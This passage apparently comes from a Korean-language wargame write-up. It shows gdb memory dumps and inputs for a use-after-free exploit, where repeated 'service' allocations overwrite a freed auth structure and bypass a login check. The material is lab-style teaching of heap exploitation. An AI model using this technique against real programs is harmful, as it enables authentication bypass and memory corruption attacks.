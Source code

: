 ```
0x804c850:      0x00000000      0x00000000      0x00000000      0x00000000

gef)  print auth
$5 = (struct auth *) 0x804c818
gef)  print *auth
$6 = {
  name = 0x804c818,
  auth = 0x43434343
}
```

```
login
you have logged in already!
[ auth = 0x804c818, service = 0x804c838 ]
```


#### Exploit2 : `use-after-free` exploit

원래 이 문제는 heap exploit 이므로 `user-after-free` exploit 로 푸는 것이 정석이 아닐까 ?

`auth` pointer 가 `alloc` -> `free` 한 이후에도 alloced pointer 값을 clear 하지 않고 계속 참조를 하면서 사용을 하고 있다. `free` 한 이후에 `service` 통하여 alloc 을 계속 하면 `0x804c838` 영역을 write 할 수 있다.

```
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c818, service = (nil) ]
reset
[ auth = 0x804c818, service = (nil) ]
serviceBBBB
[ auth = 0x804c818, service = 0x804c818 ]
serviceCCCC
[ auth = 0x804c818, service = 0x804c828 ]
serviceDDDD
[ auth = 0x804c818, service = 0x804c838 ]

gef)  x/50x 0x804c800
0x804c800:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c810:      0x00000000      0x00000011      0x42424242      0x0000000a
0x804c820:      0x00000000      0x00000011      0x43434343      0x0000000a
0x804c830:      0x00000000      0x00000011      0x44444444      0x0000000a
0x804c840:      0x00000000      0x000007c1      0x00000000      0x00000000
0x804c850:      0x00000000      0x00000000      0x00000000      0x00000000

gef)  print auth
$7 = (struct auth *) 0x804c818
gef)  print *auth
$8 = {
  name = 0x804c818,
  auth = 0x44444444
}
```

```
login
you have logged in already!
[ auth = 0x804c818, service = 0x804c838 ]
```


## Great Explanation

<iframe width="853" height="480" src="https://www.youtube.com/embed/ZHghwsTRyzQ" frameborder="0" allowfullscreen></iframe>
